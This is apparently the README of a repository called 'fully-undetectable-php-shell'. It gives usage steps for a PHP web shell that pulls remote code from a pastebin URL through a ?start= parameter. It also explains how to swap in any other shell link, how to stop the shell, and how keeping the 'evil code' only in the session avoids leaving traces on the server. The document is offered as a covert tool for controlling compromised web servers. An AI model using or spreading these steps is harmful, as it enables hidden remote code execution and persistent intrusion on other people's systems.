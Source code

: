# fully-undetectable-php-shell
How to Use This File
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
localhost/shell.php?start=http://pastebin.com/raw/8e5m6Nkp
Then remove ?start=http://pastebin.com/raw/8e5m6Nkp
and run
localhost/shell.php
If you want to stop this shell then just put
localhost/shell.php?stop
If you want to inject your own shell then just put it here
localhost/shell.php?start=your-shell-link
#It basically store session so the evil code will not store anywhere of the server.
Hope you like it.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
